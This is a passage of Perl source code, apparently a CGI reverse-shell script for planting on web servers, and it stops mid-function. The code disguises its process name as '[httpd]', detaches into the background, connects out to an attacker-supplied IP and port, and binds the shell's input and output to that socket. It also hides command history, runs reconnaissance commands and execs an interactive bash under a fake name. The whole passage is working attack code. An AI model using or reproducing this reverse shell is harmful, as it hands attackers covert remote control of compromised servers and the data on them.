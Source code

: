 ```perl
$0 = "[httpd]";

# Authenticate based on source IP address if required
if (defined($ENV{'REMOTE_ADDR'})) {
    cgiprint("Browser IP address appears to be: $ENV{'REMOTE_ADDR'}");

    if ($auth) {
        unless ($ENV{'REMOTE_ADDR'} =~ $authorised_client_pattern) {
            cgiprint("ERROR: Your client isn't authorised to view this page");
            cgiexit();
        }
    }
} elsif ($auth) {
    cgiprint("ERROR: Authentication is enabled, but I couldn't determine your IP address.  Denying access");
    cgiexit(0);
}

# Background and dissociate from parent process if required
if ($daemon) {
    my $pid = fork();
    if ($pid) {
        cgiexit(0); # parent exits
    }

    setsid();
    chdir('/');
    umask(0);
}

# Make TCP connection for reverse shell
socket(SOCK, PF_INET, SOCK_STREAM, getprotobyname('tcp'));
if (connect(SOCK, sockaddr_in($port,inet_aton($ip)))) {
    cgiprint("Sent reverse shell to $ip:$port");
    cgiprintpage();
} else {
    cgiprint("Couldn't open reverse shell to $ip:$port: $!");
    cgiexit();    
}

# Redirect STDIN, STDOUT and STDERR to the TCP connection
open(STDIN, ">&SOCK");
open(STDOUT,">&SOCK");
open(STDERR,">&SOCK");
$ENV{'HISTFILE'} = '/dev/null';
system("w;uname -a;id;pwd");
exec({"bash"} ($fake_process_name, "-i"));

# Wrapper around print
sub cgiprint {
    my $line = shift;
    $line .= "<p>\n";
    $global_page .= $line;
}

# Wrapper around exit
sub cgiexit {
    cgiprintpage();
    exit 0; # 0 to ensure we don't give a 500 response.
}

# Form HTTP response using all the messages gathered by cgiprint so far
sub cgiprintpage {
```